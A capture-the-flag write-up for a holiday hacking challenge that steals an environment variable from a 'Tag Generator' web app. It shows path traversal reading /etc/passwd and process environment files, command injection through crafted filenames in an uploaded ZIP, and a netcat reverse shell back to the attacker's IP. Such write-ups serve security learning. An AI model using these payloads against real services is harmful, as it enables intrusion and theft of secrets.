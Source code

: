 # Objective 8: Broken Tag Generator
Location: Wrapping Room

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../app/lib/app.rb --output app.rb
```
This code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\`env\>joergen\`\;\'.jpg
jsw@io:*$ zip joergen.zip \'\`env\>joergen\`\;\'.jpg
  adding: '`env>joergen`;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
Create a ZIP file including an empty jpg file:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
```
Modify the contained filename to one with the shell command for the reverse shell:
```
printf "@ joergen.jpg\n@=\';nc <your IP address> 4444 -e \`which bash\`;#'.jpg\n" | zipnote -w joergen.zip
```

Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE4ODcyOTE2NjksLTE3NjM1NDEzNTUsMT
YwNzM0ODUxNCwtODIzMDUwODYxLDEyOTM3MjA0MzksMTM5NTc5
NDgyNCwtMTU5OTI1NDQxNSwtNjE5Mjk3NDExLC01NzY2MTAwNz
UsMjEwNzUyOTg0Niw5MjIxNDQzNSwtMzk4NDkxNDYxLDExNTE1
NTY4OTYsMjM4NDYwMjcyLDE5MzMzNjE3ODcsLTE0Njc2MTUyNj
IsLTI0Mzk0Mjg2NiwxMzEyMDU2NDUzLDkyMDQ1NTg2NSwtMTYw
NjA3ODA0MF19
-->